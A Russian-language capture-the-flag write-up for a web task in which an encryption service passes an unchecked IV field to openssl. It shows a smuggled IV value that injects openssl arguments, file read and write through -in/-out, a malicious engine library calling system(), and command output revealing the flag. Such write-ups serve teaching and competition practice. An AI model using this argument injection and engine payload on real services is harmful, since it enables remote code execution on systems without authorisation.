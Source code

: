 # Тасковый этап Кубка CTF России 2020

## Web | Security

### Описание

> Всем известно, что для обеспечения информационной безопасности необходимо использовать алгоритмы шифрования!
> 
> Для этого я написал сервис, который помогает производить операции шифрования и расшифровывания.
> 
> Если хотите почувствовать себя в безопасности, воспользуйтесь им!

### Решение

Таск представлет собой веб-сервис, который умеет зашифровывать и расшифровывать произвольный текст с произвольными ключами:

![веб-интерфейс](screenshots/interface.png)

Можно потыкать в сервис и заметить, что если при расшифровке текста в большинстве режимов что-то "сломать" (например, указать неверный ключ, IV или сам шифртекст), то сервер будет ругаться ошибкой:

```
bad decrypt
140489628592896:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:evp_enc.c:531:
```

Поиск в интернете выдаёт, что это ошибка библиотеки `openssl` — скорее всего, на сервере используется именно она. Запомним это и попробуем позасылать разные значения в поля, чтобы найти другие ошибки.

У вводимых значений было несколько проверок, таких как:

- длина ключа и IV должна быть равна 32
- режим должен быть одним из тех, что предложены в интерфейсе
- при расшифровке шифртекст должен состоять только из hex-символов
- ключ должен состоять только из hex-символов, но **для IV такая проверка отсутствует**!

Поскольку IV может состоять из любых символов, попробуем передавать туда разные символы и искать ошибку (будем использовать режим CBC, так как IV не используется в ECB). Так, например, если передать пробел в качестве одного символа (например, вот так `8F0151BC1F8C30E2992DE5DF9CF121 C`), мы получим ошибку `openssl`:

```
unknown option 'C'
options are
-in <file>     input file
-out <file>    output file
-pass <arg>    pass phrase source
-e             encrypt
-d             decrypt
-a/-base64     base64 encode/decode, depending on encryption flag
-k             passphrase is the next argument
-kfile         passphrase is the first line of the file argument
-md            the next argument is the md to use to create a key
                 from a passphrase.  One of md2, md5, sha or sha1
-S             salt in hex is the next argument
-K/-iv         key/iv in hex is the next argument
-[pP]          print the iv/key (then exit if -P)
-bufsize <n>   buffer size
-nopad         disable standard block padding
-engine e      use engine e, possibly a hardware device.
Cipher Types
-aes-128-cbc               -aes-128-ccm               -aes-128-cfb              
-aes-128-cfb1              -aes-128-cfb8              -aes-128-ctr              
...
```

Это значит, что `openssl` разделил наш IV и интерпретировал его часть как свой аргумент. Получается, что мы умеем контролировать аргументы для `openssl`. Посмотрим, что с этим можно сделать.

- Во-первых, сразу из полученной ошибки мы видим, что можем производить запись и чтение произвольных файлов, используя параметры `-in <file>` и `-out <file>`. Нужно помнить, что `openssl` будет их расшифровывать выбранным шифром, поэтому перед загрузкой файлы нужно зашифровать.

- Во-вторых, у библиотеки `openssl` есть интересный ключ:

```
-engine e      use engine e, possibly a hardware device.
```

Он нужен для того, чтобы попросить `openssl` использовать кастомный движок — `.so`-библиотеку, которая содержит необходимые функции для шифрования. Так как мы умеем загружать файлы, мы можем указать путь до библиотеки в параметре `-engine`, и `openssl` постарается использовать её как движок. В интернете можно найти инструкции к тому, как писать движки для `openssl`, с примерами исходного кода. Будем использовать достаточно простой вариант:

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
    system("id");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Этот код должен вывести результат выполнения `id`. Соберём его как библиотеку и загрузим её в `/tmp/libsploit.so` (файлы загружать мы умеем описанным выше способом). Затем попробуем передать `-engine /tmp/libsploit.so` в следующую команду для `openssl` и получим результат выполнения `id`:

```
invalid engine "/tmp/libsploit.so"
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
139644963072768:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
139644963072768:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
uid=1000(security) gid=1000(security) groups=1000(security)
uid=1000(security) gid=1000(security) groups=1000(security)
```

В выводе `openssl` содержатся какие-то ошибки про неверный движок: это из-за того, что наш движок не реализует полностью интерфейс движка, поэтому некоторые символы в нём отсутствуют. Но функция `bind` вызывается, а значит у нас есть рабочий RCE.

Выполним что-то вроде `ls -la && cat flag*`, чтобы получить флаг:

```
invalid engine "/tmp/libsploit.so"
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
140500984400640:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
140500984400640:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
total 24
drwxr-xr-x 1 root root 4096 Nov 29 20:38 .
drwxr-xr-x 1 root root 4096 Nov 26 20:37 ..
-rw-r--r-- 1 root root   40 Nov 26 21:21 flag_ff9b671626b8477012f041dc42d76c885341bb35c5290fe4a2ae965d80d70a12.txt
-rw-r--r-- 1 root root 2104 Nov 26 20:25 libcrypt.py
-rwxr-xr-x 1 root root 2318 Nov 26 20:59 security_7b6ae759.py
drwxr-xr-x 2 root root 4096 Nov 29 20:38 templates
ctfcup{0p3nssl_1.0_1s_d4ng3r0usssz....}
```
